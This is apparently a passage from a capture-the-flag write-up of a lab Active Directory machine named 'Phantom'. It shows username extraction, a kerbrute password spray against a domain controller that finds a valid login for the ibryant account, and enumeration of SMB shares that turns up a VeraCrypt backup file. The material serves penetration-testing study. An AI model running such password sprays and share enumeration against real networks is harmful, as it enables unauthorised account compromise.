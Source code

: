 If we only want to extract the usernames, we can save the output as it is and then use the following command to extract the users from it.

```bash
➜ Phantom cat u.txt| cut -d '' -f2 | cut -d ' ' -f1 > user.txt
➜ Phantom tail -n 5 user.txt
ssimpson
ccooper
vcunningham
SSPR
```

Now we can perform a password spray.\
You can use `nxc` if you prefer, but I used `kerbrute` because it's faster.

```zsh
➜  Phantom kerbrute passwordspray -d phantom.vl user.txt <REDACTED> --dc 10.10.86.166

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 04/13/25 - Ronnie Flathers @ropnop

2025/04/13 17:14:37 >  Using KDC(s):
2025/04/13 17:14:37 >  	10.10.86.166:88

2025/04/13 17:14:38 >  [+] VALID LOGIN:	 ibryant@phantom.vl:<REDACTED>
2025/04/13 17:14:38 >  Done! Tested 26 logins (1 successes) in 0.731 seconds
```

Nice, we’ve compromised the _Ibryant_ user.

Then, I looked at the shares of the _Ibryant_ user and found a file with a `.hc` extension.\
After some investigation, I realized that this is a VeraCrypt file.\
To put it simply, VeraCrypt is a tool used to encrypt your disk or files.

```zsh
➜  Phantom impacket-smbclient phantom.vl/ibryant@10.10.86.166                                          

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# shares
ADMIN$
C$
Departments Share
IPC$
NETLOGON
Public
SYSVOL
# use Departments Share
# ls
drw-rw-rw-          0  Sat Jul  6 20:25:31 2024 .
drw-rw-rw-          0  Sun Jul  7 12:39:30 2024 ..
drw-rw-rw-          0  Sat Jul  6 20:25:11 2024 Finance
drw-rw-rw-          0  Sat Jul  6 20:21:31 2024 HR
drw-rw-rw-          0  Thu Jul 11 18:59:02 2024 IT
# cd IT
# ls
drw-rw-rw-          0  Thu Jul 11 18:59:02 2024 .
drw-rw-rw-          0  Sat Jul  6 20:25:31 2024 ..
drw-rw-rw-          0  Sat Jul  6 22:04:34 2024 Backup
```